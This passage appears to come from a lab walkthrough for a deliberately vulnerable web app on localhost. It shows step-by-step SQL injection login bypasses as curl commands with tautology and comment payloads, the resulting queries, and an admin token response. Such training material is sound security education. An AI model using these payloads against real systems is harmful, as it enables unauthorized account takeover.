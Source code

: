 ### 🔓 Step-by-Step Exploitation

#### Attack 1: Authentication Bypass via Legacy Login

**Step 1: Test for SQL Injection**

```bash
# Try a simple SQL injection test
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' OR '\''1'\''='\''1",
    "password": "anything"
  }'
```

**Step 2: Understanding the Injection**

The vulnerable query looks like:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'anything'
```

This always returns true because `'1'='1'` is always true!

**Step 3: Comment-Based Bypass**

```bash
# Use SQL comments to ignore password check
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\''-- ",
    "password": "irrelevant"
  }'
```

The query becomes:
```sql
SELECT * FROM users WHERE username = 'admin'-- AND password = 'irrelevant'
```
Everything after `--` is commented out!

**Step 4: Login as Any User**

```bash
# Login as specific user
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin",
    "password": "x'\'' OR '\''1'\''='\''1'\''-- "
  }'
```

**Response:**
```json
{
  "success": true,
  "token": "eyJhbGciOiJIUzI1NiIs...",
  "user": {
    "id": 1,
    "username": "admin",
    "email": "admin@wcorp.com",
    "role": "admin"
  }
}
```
